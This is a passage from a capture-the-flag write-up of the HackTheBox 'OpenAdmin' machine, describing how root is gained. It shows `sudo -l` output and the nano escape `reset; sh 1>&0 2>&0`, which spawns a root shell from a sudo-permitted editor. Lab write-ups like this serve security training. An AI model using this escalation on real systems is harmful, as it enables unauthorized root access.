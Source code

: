 User owned !

## Owning root

First this to do is to check if i can run command as root without password using `sudo -l`

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
i can run `/bin/nano /opt/priv` without password <br/>
gtfobins nano: `https://gtfobins.github.io/gtfobins/nano/` <br/>
commands:<br/>
```
sudo -u root /bin/nano /opt/priv
```
press:`ctrl+R ctrl+X`<br/>
type: `reset; sh 1>&0 2>&0` and press enter<br/>

![info](https://raw.githubusercontent.com/0xyassine/0xyassine.github.io/master/assets/img/htb/open/root.jpg)

Rooted :) Your feedback is appreciated !